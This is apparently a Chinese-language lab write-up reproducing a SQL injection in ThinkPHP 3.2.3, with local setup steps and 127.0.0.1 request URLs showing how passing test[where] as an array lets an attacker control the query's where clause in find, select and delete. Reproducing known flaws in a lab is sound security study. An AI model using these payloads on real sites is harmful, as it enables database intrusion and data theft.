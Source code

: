 ###### 环境调试

下载地址：http://www.thinkphp.cn/download/610.html

  
自己配置一下数据库路径：

test_thinkphp_3.2.3\Application\Common\Conf\config.php

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1MNEtS1gwWdHNqgI1tA6wOsjtMAwwnKC6ePZwJX45TJ4B0c0wlTwaEA/640?wx_fmt=png)  
自己安装，安装完以后访问一下：

http://127.0.0.1/thinkphp_3.2.3/index.php/Home/Index/index

  
没有报错就可以了。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1b212BBCOtmZN7JBu4aV7AZbt2lnoKgnCBh75CvHymx2ZvwhgoVXoRA/640?wx_fmt=png)  
开启 debug 方便本地测试

路径：test_thinkphp_3.2.3\index.php

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1KpHG8F1NlhX0lvk5uN3NSZvkzohOf8dB06u4s9Gywib9IQic8j5Eny6Q/640?wx_fmt=png)  
路径：test_thinkphp_3.2.3\Application\Common\Conf\config.php

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1qqdiaOqtpjYtNs2icuG4fY5QzLkSOyFMpGlgd6mMLFdrZZlZXhQ1s9ZA/640?wx_fmt=png)

###### 漏洞复现

3 处注入利用方法都是一样的，所以就演示一个 find 注入  
Select 与 delete 注入同理

```
http://127.0.0.1/thinkphp_3.2.3/index.php/Home/Index/testSqlFind?test=3
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1Cv0DkWaq7rhYYmhDCicyZWvpZw3SJFsGB6yArMK3DicU67JvzKYkOowA/640?wx_fmt=png)

```
http://127.0.0.1/thinkphp_3.2.3/index.php/Home/Index/testSqlFind?test=3%27aaa
```

明显转成整型，无法进行注入了。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1eRPKiczRQiaKLwgicgv6w9JTjzwibVXeic6BsjK0AVwOgibTMZfT3cfZ3zAA/640?wx_fmt=png)

```
http://127.0.0.1/thinkphp_3.2.3/index.php/Home/Index/testSqlFind?test[where]=3
```

这样就可以直接控制 where 了。  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC14Iv99J5vaJDSHA2zPyO9SD2tEPRLHLcoriaUibK3OIQafX5vmBjSPtfw/640?wx_fmt=png)

```
http://127.0.0.1/thinkphp_3.2.3/index.php/Home/Index/testSqlFind?test[where]=3%27
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1pCuibPeCcbQN4nsTzxia38qD1AkVpLb23VyAwLCcoH20U1taC9dOFOxg/640?wx_fmt=png)
